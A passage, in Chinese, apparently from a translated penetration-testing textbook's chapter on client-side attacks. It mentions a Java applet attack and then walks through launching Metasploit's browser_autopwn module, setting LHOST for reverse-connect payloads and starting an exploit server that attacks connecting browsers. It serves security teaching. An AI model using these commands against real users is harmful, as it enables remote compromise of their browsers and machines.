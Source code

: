 ![Java 小程序攻击](img/httpatomoreillycomsourcenostarchimages2030398.png.jpg)图 10-2. Java 小程序攻击

尽管有警告，Social-Engineer Toolkit（我们将在下一章中探讨）声称这个攻击是所有可用攻击中最成功的之一，尽管它不依赖于 Java 或底层操作系统中的任何未修补的漏洞。

### browser_autopwn

*browser_autopwn*模块是 Metasploit 中另一种客户端攻击选项。尽管有时它被认为是在作弊，但该模块会加载它知道的所有浏览器和浏览器插件模块（包括 Java、Flash 等），并等待浏览器连接到服务器。一旦浏览器连接，服务器会识别浏览器并提供所有它认为可能成功的漏洞利用。示例见示例 10-20。

示例 10-20. 启动 browser_autopwn

```
msf > **use auxiliary/server/browser_autopwn**
msf auxiliary(browser_autopwn) > **show options**

Module options (auxiliary/server/browser_autopwn):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   LHOST                        yes       The IP address to use for reverse-connect payloads
   SRVHOST     0.0.0.0          yes       The local host to listen on. This must be an address
                                            on the local machine or 0.0.0.0
   SRVPORT     8080             yes       The local port to listen on.
   SSL         false            no        Negotiate SSL for incoming connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly
                                            generated)
   SSLVersion  SSL3             no        Specify the version of SSL that should be used
                                            (accepted: SSL2, SSL3, TLS1)
   URIPATH                      no        The URI to use for this exploit (default is random)

msf auxiliary(browser_autopwn) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf auxiliary(browser_autopwn) > **set URIPATH autopwn**
URIPATH => autopwn
msf auxiliary(browser_autopwn) > **exploit**
[*] Auxiliary module execution completed

[*] Setup
msf auxiliary(browser_autopwn) >
[*] Obfuscating initial javascript 2015-03-25 12:55:22 -0400
[*] Done in 1.051220065 seconds

[*] Starting exploit modules on host 192.168.20.9...
```
